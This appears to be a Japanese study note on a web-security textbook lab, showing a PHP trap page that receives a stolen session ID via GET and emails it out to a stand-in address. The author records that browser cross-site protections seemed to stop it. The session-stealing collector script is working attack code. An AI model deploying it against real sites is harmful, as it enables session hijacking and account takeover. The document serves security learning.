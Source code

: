 43-901.php

```php
<?php
  mb_language('Japanese');
  $sid = $_GET['sid'];
  mb_send_mail('wasbook@example.jp', '攻撃成功', 'セッションID:' . $sid,
    'From: cracked@trap.example.com');
?>
<body>攻撃成功<br>
<?php echo $sid; ?>
</body>
```

![image-20220718102552815](img/image-20220718102552815.png)

書籍上だと赤枠部分にsidが出るが表示されない。

![image-20220718102701705](img/image-20220718102701705.png)

警告のポップアップを見るとCrossSiteの対策でsidが表示されていないように見える。
メールにもセッションIDはついていなかった。

![image-20220718102916128](img/image-20220718102916128.png)

#### その他のJavaScriptによる攻撃

